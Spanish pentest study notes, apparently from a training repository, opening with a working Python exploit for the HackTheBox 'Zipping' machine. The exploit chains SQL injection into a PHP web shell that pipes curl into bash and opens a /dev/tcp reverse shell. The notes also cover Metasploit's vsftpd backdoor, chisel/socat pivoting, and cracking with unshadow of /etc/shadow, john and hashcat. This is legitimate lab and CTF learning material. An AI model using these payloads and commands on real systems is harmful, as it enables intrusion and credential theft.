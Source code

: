 # Identificar y modificar exploits

```
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
	#AQUI HABRIA QUE CAMBIAR EL LISTENER IP Y EL LISTENER PORT
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```

# Realizar explotación con metasploit

![image](https://github.com/user-attachments/assets/99bc01b1-9d9e-4c20-abf0-b6862b05e4b0)

Después de hacer un nmap y haber visto las versiones de los servicios, podemos buscar a ver si hay exploits con searchsploit.
![image](https://github.com/user-attachments/assets/5d5254ed-46a3-44ae-893c-106d6b8d6da2)

También podemos hacer la búsqueda desde la msfconsole.
![image](https://github.com/user-attachments/assets/0e842828-5115-40c3-9419-2ac7de8b8b87)

Podemos buscar haber si hay algun exploit disponible  con search 
Podemos seleccionar el eploit con use 0, sino podemos hacer un use exploit/unix/ftp/vsftpd_234_backdoor
![image](https://github.com/user-attachments/assets/e9a88f42-07c3-4743-aeb5-791075080c02)

Con show options, podemos ver los parametros que necesita el exploit.
![image](https://github.com/user-attachments/assets/15394aee-2def-4658-809e-41a57796fad5)

Con set marcamos el rhosts y le ponemos la ip de la máquina victima.
Hacemos el primer exploit y vemos que no ha conseguido crear la session, pero hacemos run y ya coge la shell como root.

# Demostrar cómo pivotar agregando una ruta y reenviando puertos
![image](https://github.com/user-attachments/assets/a2466c9e-7e63-4828-83b7-ce971ad4acd7)

Creamos un servidor  con chisel para crear un tunel http entre la máquina victima y la mía.
![image](https://github.com/user-attachments/assets/17eac6bd-afe0-433f-9a95-a48b915f8601)

Nos conectamos como cliente desde la máquina victima a la máquina atacante.
![image](https://github.com/user-attachments/assets/12952c36-afad-4e1d-886f-74c943f342fc)

Podemos ver que se nos han conectado por el puerto 6565 y que se ha generado un proxy en el puerto 1080.
![image](https://github.com/user-attachments/assets/53006bbe-e569-4f5b-af83-bca58fe63769)

Añadimos está linea al final del todo del archivo /etc/proxychains4
![image](https://github.com/user-attachments/assets/aad2e1f7-1ca9-461d-adf2-b2880a9a1816)

Añadimos el proxy y ya podremos ver la página de la segunda máquina de la red. Pero para que estas máquinas puedan conectarse a nosotros necesitamos el socat.

![image](https://github.com/user-attachments/assets/9c40aac3-b8b3-4b3e-9218-4629868a6466)

Abrimos en la máquina victima 1 un escucha en el puerto 1111, y que lo reenvie a nuestra máquina atacante al puerto 448.

![image](https://github.com/user-attachments/assets/bfcc8164-0c59-4692-b32f-0c3d3b5bc27a)
En la máquina atacante abrimos la escucha en el puerto 448 con nc.
![image](https://github.com/user-attachments/assets/b58ae2fb-b890-4d33-84a1-6668ebaf51be)
Hacemos un revershell en la máquina victima 2.
![image](https://github.com/user-attachments/assets/8244188f-b6d2-424d-a27f-d96d7b652d37)
Y en la escucha que tenemos en el puerto 448 se nos abrirá la shell de la máquina 2.





# Realizar ataques de fuerza bruta a contraseñas y descifrado de hash

![image](https://github.com/user-attachments/assets/40123c1d-985d-45e8-9f8d-92ab442b1cab)
Para hacer ataques de fuerza bruta a contraseñas, podemos utilizar hydra:
-L marca el diccionario de usernames que se probarán
-p marca el diccionario de passwords que utilizará
Después marcamos la ip objetivo y el servicio que queremos atacar.
-s marcamos puerto específico

John the ripper:
Con esta herramienta podemos hacer ataques de fuerza bruta a hashes de contraseña.

Practica de ejemplo:
`unshadow /etc/passwd /etc/shadow > password.txt`
`john --wordlist=/path/to/dictionary password.txt`
`john --wordlist=/home/kali/contraas.txt  hash.txt --format=crypt ` "--format=crypt(sirve para yescrypt que es el hash de la pass de linux)"
`john --show password.txt`


Con john podemos adaptarnos a diferentes formatos de hash y tipos de archivos protegidos por contraseña. Existen unas herramientas que convierten estos archivos o hashes a un formato legible para john the ripper. Estas herramientas son programas conocidos como 2john. Ej:
zip2john -- rar2john -- pdf2john -- keepass2john...

Hashcat

Con esta herramienta también podemos hacer ataques de fuerza bruta a contraseñas.

Ejemplos de uso:

`hashcat -m 0 -a 0 hash.txt rockyou.txt`

Con -m especificamos el tipo de hash (MD5 en este caso)
-a especifica el modo de ataque (ataque de diccionario)
Primero se pone el archivo donde tenemos el hash a crackear y luego ponemos el diccionario 
